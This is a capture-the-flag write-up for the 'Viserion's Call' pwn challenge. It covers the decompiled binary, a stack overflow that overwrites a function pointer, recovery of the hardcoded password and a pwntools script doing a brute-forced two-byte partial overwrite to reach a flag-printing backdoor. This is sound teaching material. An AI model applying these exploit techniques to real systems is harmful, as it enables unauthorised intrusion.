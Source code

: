 # Writeup for the Viserion's Call Writeup 

## Description of the Challenge:-

<b> Give me the right password!</b>

<b>Note: The server is running on 20.04 </b>



#### Files provided for the challenge are the vulnerable binary , libc.so.6 and fake flag.txt file

### Checksec:-



| Mitigation   | Stance       |
| ------------ | ------------ |
| RELRO        | FULL RELRO   |
| Stack Canary | Canary Found |
| NX           | NX Enabled   |
| PIE          | PIE Enabled  |



### This Writeup is gonna be super short because I kinda solved it in a unintended easy way



![start_meme](https://memegenerator.net/img/instances/65717385/okay-then-lets-begin.jpg)

Funny backstory is that this challenge was rated hard 

#### First Let's analyse the behaviour of the Program and Plan our Exploit:-

1) First Let's do a test run.. It asks for a name and password..And then check the password with something and print Invalid password

   ![asd](https://raw.githubusercontent.com/vital-information-resource-under-siege/PWN-Challenges/main/inctf-pro-finals/viserions_call/writeup-images/first.png)





2. Let's see it in a ghidra...First of all,The user defined functions present in the binary.

![user defined functions](https://raw.githubusercontent.com/vital-information-resource-under-siege/PWN-Challenges/main/inctf-pro-finals/viserions_call/writeup-images/second.png)



3. Most of the functions in the above images are Compiler generated functions.

4. The user defined functions in the binary are `main,initialize,password_check,hidden_func,password_view and  backdoor`

5. After viewing the decompiled code,The initialize function was obvious setting up the alarm for the timeout for the program and setting up stream buffering .

6. Let's look at the main function decompiled code.

   ![third](https://raw.githubusercontent.com/vital-information-resource-under-siege/PWN-Challenges/main/inctf-pro-finals/viserions_call/writeup-images/third.png)

7. The first image that takes the name as input is safe 20 bytes of string using read syscall and not even a single byte overflow here.

8. But the problem occurs at the the second input where the size of the variable is 20 and but read accepts 80 characters. Simply by reading the decompiled code gave us the vulnerability.

   ![meme2](https://i.redd.it/agw69j6z2c131.jpg)

9. But here comes the tricky part ..

   #### First of all we have to bypass the stack canary without any format string bugs,then there is PIE enabled and finally the return address of the main function is libc_start_main+243 so we can't partial write to leak puts something like that.. Just after our big breakthrough we just stumbled into something that is super hard to bypass

   

   ![meme three](https://memegenerator.net/img/instances/82098423/what-if-i-told-you-there-is-no-way-out.jpg) 

10. But let me remind you guys..I did solve this challenge super easy right.. Maybe I found something that allow me bypass all the mitigations right. 

11. When I was skimming through the decompiled code,I saw something suspicious on the main function code at line 17 which holds the address of password view function which is present in stack and gets called at line 27.

    ![one more meme](https://i.imgflip.com/61y5bv.jpg)

    12. But function pointer may also be present before the input right which may render our overflow vulnerability useless . Let's check that..

        ![ss4](https://raw.githubusercontent.com/vital-information-resource-under-siege/PWN-Challenges/main/inctf-pro-finals/viserions_call/writeup-images/fourth.png)

Here we can see that our our name input is ajay. And our next input which is password is 8 B's above the function password which reads upto 80 characters can easily tamper the function pointer. Still we have a PIE there partial overwrite to what address tho.

14. Interestingly, When viewing through different function .. I remembered a function named backdoor. The naming of the function made me suspicious.

    So I went to see what this function does..After seeing the function.. My face totally went like this gif.

    ![mememe](https://c.tenor.com/8mnrYcikj3sAAAAC/meme-troll.gif)

15. Lemme post the decompiled code of that function here.

    ```c
    void backdoor(void)
    
    {
      FILE *__stream;
      long in_FS_OFFSET;
      char local_48 [56];
      undefined local_10;
      
      local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
      __stream = fopen("flag.txt","rb");
      if (__stream != (FILE *)0x0) {
        fgets(local_48,0x3c,__stream);
        fclose(__stream);
      }
      puts(local_48);
                        /* WARNING: Subroutine does not return */
      exit(0);
    }
    ```

    This function holds the flag which is basically the win function for this program. That means we just have to perform a local buffer overflow.

16. But the PIE offset for the backdoor function is 0x1015df and for the password_view function the offset is 0x1014a2 . 

    The input is read using read so no terminators are placed after input. 

    ## As PIE work is similar to ASLR which places the binary base in random regions except the first nibble and the last three nibbles will always be same while in ASLR the first two nibbles and the last three nibbles will be same

    Let me write a test C program to print out the address to show how PIE and ASLR works.

    ```c
    #include<stdio.h>
    #include<stdlib.h>
    int main()
    {
    	printf("The address of main function is %p\n",main);
    	printf("The address of system function is %p\n",system);
    }
    ```

    ![output](https://raw.githubusercontent.com/vital-information-resource-under-siege/PWN-Challenges/main/inctf-pro-finals/viserions_call/writeup-images/fifth.png)

    Here we can see that for every execution the address of main function always changes but the last 3 nibbles and fist nibble . While the system function address changes by first two nibbles and the last three nibbles.

    So our partial two byte write still will not yield us a one shot solution but a 1/16 byte bruteforce will work .. 

17. But there is a problem in password check that if we don't give correct password the program exits which will render our overflow vulnerability useless.

18. Here is the code that exits if the check is failed in password check function.

    ```c
      local_20 = *(long *)(in_FS_OFFSET + 0x28);
      local_38 = 0x705f337275633373;
      local_30 = 0x64723077737334;
      local_28 = 0;
      local_3c = 0;
      while( true ) {
        sVar1 = strlen((char *)&local_38);
        if (sVar1 <= (ulong)(long)local_3c) break;
        if ((&stack0x0000001c)[local_3c] != *(char *)((long)&local_38 + (long)local_3c)) {
          puts("Invalid Password");
                        /* WARNING: Subroutine does not return */
          exit(0);
        }
        local_3c = local_3c + 1;
      }
      puts("Correct Password!");
    ```

    

    19. But it is actually easy, when u convert the hex to string the password is found out to be `s3cur3_p4ssw0rd`.

    20. But think about it,it checks for the string `s3cur3_p4ssw0rd` but our password also needs to have the partial two byte write payload.

    21. But strcmp only checks until null byte tho. While read does not have any null byte terminator like strcpy.

    22. The Exploit source code for the challenge is:-

        ```python
        #!/usr/bin/env python3
        
        
        
        from pwn import *
        from time import sleep
        
        e = ELF("./viserions_call")
        #r = process("./viserions_call")
        r = remote("gc1.eng.run",32680)
        r.sendline(b"A" * 10)
        sleep(0.5)
        r.send(b"s3cur3_p4ssw0rd\x00\x00\x00\x00\x00" + p16(0x15df))
        r.interactive()
        
        ```

        This Exploit works in a possibility  of 1/16.

        ## Me after completing this challenge in a super easy way with all mitigations present with difficulty stated as hard

        ![final meme](https://i.kym-cdn.com/photos/images/newsfeed/002/008/781/65d.png)

### Final note: Author said the intended solution was to use vsyscalls and finally use a partial one byte overwrite to solve this challenge.

